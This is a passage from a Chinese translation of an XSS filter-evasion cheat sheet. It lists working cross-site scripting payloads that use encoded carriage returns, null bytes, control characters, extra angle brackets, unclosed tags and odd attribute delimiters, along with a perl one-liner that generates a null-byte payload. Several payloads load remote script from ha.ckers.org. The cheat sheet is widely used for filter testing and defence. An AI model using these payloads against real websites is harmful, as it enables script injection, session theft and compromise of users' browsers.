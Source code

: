     <IMG SRC="jav&#x0A;ascript:alert('XSS');">

------
##编码回车符去分开xss代码##
注意：上面我编写的三个xss字符串比必须长度的字符串更长，原因是0可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符，正确的应该是一到七个字符。

    <IMG SRC="jav&#x0D;ascript:alert('XSS');">

----
##没有分割的javascript指令##
null字符也可以作为一个xss向量，但不同于上面。你需要直接注入它们利用一些工具例如Burp Proxy，或是使用 %00 在你的url字符串里。或者如果你想写你自己的注入工具你可以使用vim（^V^@ 会生成null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符173（软连字符）。但是null字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器通过变动像这个例子中的。

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

------
##IMG中javascript之前添加空格和元字符为xss绕过##
xss过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32编码字符（十进制）中的任何字符。

    <IMG SRC=" &#14;  javascript:alert('XSS');">

------
##非字母数字字符的xss##
 Firefox html解析器认为一个非数字字母的字符在一个html关键字中不是有效的，因此这些字符会被视为空白符或是无效的token在html标签之后。这导致很多xss过滤器错误的认为html标签必须是被空白符隔断的。例如，"<SCRIPT\s" != "<SCRIPT/XSS\s":

    <SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

和上面的原理相同，我们继续扩大，Gecko渲染引擎允许字母、数字、html封装字符以外的任何字符位于事件处理器与等号之间。借此我们可以绕过xss过滤器。注意这也是适用于重音符如下所示：

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

Yair Amit 提示我有一个小区别在 ie和Gecko 渲染引擎之间是在不使用空格的情况下，Gecko仅允许一个斜杠在html标签和参数之间。这可能是有用的在那些不允许输入空格的系统中。

    <SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

-----
##额外的开括号##
 Franz Sedlmaier提出，利用这个xss向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。最后，代码中的双斜杠可以抑制额外尖括号导致的javascript错误。

    <<SCRIPT>alert("XSS");//<</SCRIPT>

------
##没关闭的script标签##
对于使用了 Gecko渲染引擎的Firefox 和 Netscape 8.1 ，你并不需要常规xss中">&#x3C;&#x2F;&#x53;&#x43;&#x52;&#x49;&#x50;&#x54;&#x3E;"这部分。 Firefox会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后html代码会闭合成什么样子。

    <SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

-----
##script标签中的协议解析#
这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh提出的协议解析绕过。这个xss例子工作在 IE, 使用IE渲染引擎的Netscape 以及加了</SCRIPT>在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个script标签中。


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html